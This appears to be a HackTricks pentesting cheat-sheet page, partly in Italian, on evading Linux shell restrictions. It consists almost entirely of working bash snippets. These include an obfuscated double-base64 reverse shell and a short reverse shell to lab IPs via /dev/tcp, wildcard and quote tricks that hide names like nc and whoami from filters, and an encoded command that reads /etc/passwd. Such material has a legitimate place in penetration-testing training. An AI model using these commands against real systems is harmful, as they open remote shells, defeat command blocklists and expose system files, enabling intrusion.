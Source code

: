 # Bypass Linux Restrictions

{{#include ../../banners/hacktricks-training.md}}

## Bypass delle Limitazioni Comuni

### Reverse Shell
```bash
# Double-Base64 is a great way to avoid bad characters like +, works 99% of the time
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
# echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0NEx6UTBORFFnTUQ0bU1Rbz0K|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```
### Short Rev shell
```bash
#Trick from Dikline
#Get a rev shell with
(sh)0>/dev/tcp/10.10.10.10/443
#Then get the out of the rev shell executing inside of it:
exec >&0
```
### Bypass Paths e parole vietate
```bash
# Question mark binary substitution
/usr/bin/p?ng # /usr/bin/ping
nma? -p 80 localhost # /usr/bin/nmap -p 80 localhost

# Wildcard(*) binary substitution
/usr/bin/who*mi # /usr/bin/whoami

# Wildcard + local directory arguments
touch -- -la # -- stops processing options after the --
ls *
echo * #List current files and folders with echo and wildcard

# [chars]
/usr/bin/n[c] # /usr/bin/nc

# Quotes
'p'i'n'g # ping
"w"h"o"a"m"i # whoami
ech''o test # echo test
ech""o test # echo test
bas''e64 # base64

#Backslashes
\u\n\a\m\e \-\a # uname -a
/\b\i\n/////s\h

# $@
who$@ami #whoami

# Transformations (case, reverse, base64)
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") #whoami -> Upper case to lower case
$(a="WhOaMi";printf %s "${a,,}") #whoami -> transformation (only bash)
$(rev<<<'imaohw') #whoami
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64

# Execution through $0
echo whoami|$0
```